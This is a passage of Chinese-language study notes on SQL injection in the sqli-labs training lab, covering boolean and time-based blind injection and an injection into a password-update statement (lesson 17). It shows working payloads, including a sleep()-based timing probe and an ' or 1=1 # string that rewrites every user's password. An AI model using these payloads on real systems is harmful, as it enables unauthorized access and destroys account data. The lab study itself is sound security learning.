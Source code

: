 ```
") or if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```





布尔型盲注最好先猜出他们网站有什么用户名，以一个正确的用户名来当参照
admin") and (select database()='security') #






# less17

![image-20220114222534038](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less17-post-%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81.assets/image-20220114222534038.png)



**sql语法里的“改”**:

```
update users set password='$pass' where username='Dumb';
```

推测闭合方式——使用万能密码——把密码改为空或者1

```
' or 1=1 #
```



```
update users set password='' or 1=1 # where username='Dumb';

update users set password=1 
```



![image-20220115170248765](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less17-post-%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81.assets/image-20220115170248765.png)